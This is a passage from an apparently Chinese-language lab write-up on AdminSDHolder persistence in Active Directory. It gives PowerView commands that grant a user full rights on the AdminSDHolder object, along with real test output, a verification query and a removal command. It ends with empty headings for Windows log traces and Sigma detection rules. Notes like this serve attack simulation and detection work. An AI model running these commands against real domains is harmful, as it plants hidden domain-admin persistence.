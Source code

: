 2.向AdminSDHolder对象添加ACL

添加用户，xiaomi的完全访问权限，命令如下：

```powershell
Import-Module .\PowerView.ps1
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName xiaomi -Verbose -Rights All
```

注意:本文提到的百度社区参考链接此处存在问题。是Rights不是文中提到的Right

**真实测试情况**

```powershell
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -Principal
SamAccountName xiaomi -Verbose -Rights All
详细信息: Get-DomainSearcher search string: LDAP://CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
详细信息: Get-DomainSearcher search string: LDAP://DC=xiaomi,DC=org
详细信息: Granting principal S-1-5-21-3576461989-1381017913-248049510-1104 'All' on
CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
详细信息: Granting principal S-1-5-21-3576461989-1381017913-248049510-1104 '00000000-0000-0000-0000-000000000000'
rights on CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
```

3.验证用户权限

等待六十分钟后，执行以下命令查询用户xiaomi的权限：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference-match'xiaomi'}
OR
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | select IdentityReference
```

4.删除AdminSDHolder中指定用户的ACL

搜索条件为"LDAP://CN=AdminSDHolder,CN=System,DC=test,DC=com"

删除用户xiaomi的完全访问权限，命令如下（**测试执行失败**，具体原因未查）：

```powershell
Remove-DomainObjectAcl -TargetSearchBase "LDAP://CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org" -PrincipalIdentity xiaomi -Rights All -Verbose
```

## 测试留痕

windows安全日志

## 检测规则/思路

### Sigma规则
